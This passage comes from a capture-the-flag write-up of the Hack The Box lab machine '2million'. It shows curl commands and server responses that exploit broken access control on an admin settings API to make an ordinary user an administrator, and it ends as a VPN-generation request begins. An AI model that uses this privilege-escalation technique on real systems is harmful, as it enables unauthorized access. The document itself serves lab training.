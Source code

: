 Among these endpoints, it seems that we can use the `/api/v1/admin/settings/update` one with our authenticated user.

> We shall inspect all the endpoints to check if authentication broken exists.

After some errors and tries, we figure out the usage of this endpoint and make our user as admin now.

{% code overflow="wrap" %}
```bash
$ curl -XPUT -l -H 'Cookie: PHPSESSID=<PHPSESSID>' http://2million.htb/api/v1/admin/settings/update  -i
{"status":"danger","message":"Invalid content type."}

$ curl -XPUT -l -H 'Cookie: PHPSESSID=<PHPSESSID>' http://2million.htb/api/v1/admin/settings/update  -i -H 'Content-Type: application/json'
{"status":"danger","message":"Missing parameter: email"}

$ curl -XPUT -l -H 'Cookie: PHPSESSID=<PHPSESSID>' http://2million.htb/api/v1/admin/settings/update? -d '{"email":"<user email>"}'  -i -H 'Content-Type: application/json'
{"status":"danger","message":"Missing parameter: is_admin"}

$ curl -XPUT -l -H 'Cookie: PHPSESSID=<PHPSESSID>' http://2million.htb/api/v1/admin/settings/update? -d '{"email":"<user email>", "is_admin": "true"}'  -i -H 'Content-Type: application/json'
{"status":"danger","message":"Variable is_admin needs to be either 0 or 1."}

$ curl -XPUT -l -H 'Cookie: PHPSESSID=<PHPSESSID>' http://2million.htb/api/v1/admin/settings/update? -d '{"email":"<user email>", "is_admin": 1}'  -i -H 'Content-Type: application/json'
{"id":13,"username":"<username>","is_admin":1}
```
{% endcode %}

We can authenticate as an admin now.

<figure><img src="../../.gitbook/assets/圖片 (4) (1).png" alt=""><figcaption><p>We are admin now.</p></figcaption></figure>

## Initial Access

### VPN Generation

As before, being an admin now, we can figure out the parameters needed to use the other endpoint `/api/v1/admin/vpn/generate`:

{% code overflow="wrap" %}
```bash
$ curl -XPOST -H 'Cookie: PHPSESSID=<PHPSESSID>' http://2million.htb/api/v1/admin/vpn/generate -i -H 'Content-Type: application/json' -d '{"username": "<username>"}'
```
{% endcode %}
